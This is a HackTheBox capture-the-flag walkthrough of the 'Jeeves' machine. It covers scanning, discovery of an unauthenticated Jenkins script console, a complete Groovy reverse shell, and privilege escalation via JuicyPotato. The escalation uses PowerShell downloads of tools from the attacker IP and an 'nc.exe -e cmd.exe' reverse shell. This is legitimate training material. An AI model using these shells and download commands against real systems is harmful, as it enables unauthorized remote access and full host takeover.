 # Jeeves [htb](https://app.hackthebox.com/machines/114)

![jeeves-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/jeeves-01.png)

## Recon

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/hosts-02.png)


Lets scan the target with: 

`nmap -sC -sV -p- -A jeeves.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/nmap-res-03.png)


We get the following:

+ IIS v10.0 server on port 80. 
+ RCP endpoint mapper on port 135. 
+ SMB on port 445.
+ Jetty v9.4 server on port 50000.

Lets take a quick look at the SMB and see if we can snatch any quick wins. 


### SMB 445

Lets try connecting with a null session: 

`smbclient -U '%' -N \\\\jeeves.htb\\IPC$`

![null-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/null-fail-04.png)


Lets try crackmapexec:

`crackmapexec smb jeeves.htb -u '' -p '' --users`

![crackmap-fail-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/crackmap-fail-05.png)


Looks like we need credentials, lets move on to the IIS server on port 80.


### IIS 80

Lets open our browser and navigate towards `http://jeeves.htb/`

![jeeves-site-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/jeeves-site-06.png)


If we try to search anything in the search bar, we get redirectred to this `error.html` page:

![err-html-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/err-html-07.png)


This is a predetermined outcome no matter what we input:

![source-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/source-08.png)


We can't really interact with the SQL server at the moment, no request is actually being sent 
to the server, i've tested this with Burp. We can use tools to try and extract information 
from the SQL server but we need credentials. We might try that later on if we need to.

Iv'e also tried directory and subdomain enumeration, thats not the way forward, nothing comes up. 

We can conclude from this page that we might have an SQL server somewhere in the environnment and 
we know its type an version. Searching for exploits is not the way forward in this case either. 

Lets check the Jetty server on port 50000.


### Jetty 50000

Lets navigate towards `http://jeeves.htb:50000`

![jetty-site-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/jetty-site-09.png)


Nothing here. If we try directory busting we find something interesting:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3
-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ`

![ffuf-res-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/ffuf-res-10.png)


This leads us to an unauthenticated Jenkins portal:

![jenkins-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/jenkins-11.png)


We could try to login, but why would we if we can access the script console? :

![script-console-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/script-console-12-png.png)


We can use the following Groovy reverse shell

```java
String host="10.10.14.68";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

+ Make sure to update your IP. 

+ Start the listener with `nc -lnvp 8044`

+ Paste the script to the script console and execute. 

![exec-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/exec-13.png)


+ Get a shell:

![shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/shell-13.png)




## Privilege Escalation

If we list out our user's privileges with `whoami /priv`:

![priv-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/priv-15.png)


We can see we have the `SeImpersonate` privilege enabled, this is bad. This means we can try and
use [juicypotato](https://github.com/ohpe/juicy-potato) to get `NT_AUTHORITY`. 

+ download `juicypotatos` and transfer to the target with:
`powershell "Invoke-WebRequest -Uri http://10.10.14.68/JuicyPotato.exe -OutFile C:\Users\kohsuke\juicypotato.exe"`


+ Transfer `/usr/share/windows-resources/binaries/nc.exe` to the target as well with:

`powershell "Invoke-WebRequest -Uri http://10.10.14.68/nc.exe -OutFile C:\Users\kohsuke\nc.exe"`


+ Start the listener with: `nc -lnvp 9009`.


+ Execute the exploit with:

`juicypotato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\kohsuke\nc.exe -e cmd.exe 10.10.14.68 9009" -t *`

![execute-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/execute-16.png)


+ Get `NT_AUTHORITY`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/root-17png.png)


If you want the `root.txt` flag, you wont find it in the admin's desktop folder simply with `dir`.
In CTF's we should always look for alternative data streams, which can be seen with `dir /R`:


![altr-strm-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/altr-strm-18.png)


To get the contents of the file redirect it to `more` as such:

`more < hm.txt:root.txt`

![root-flag-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jeeves/img/root-flag-18.png)



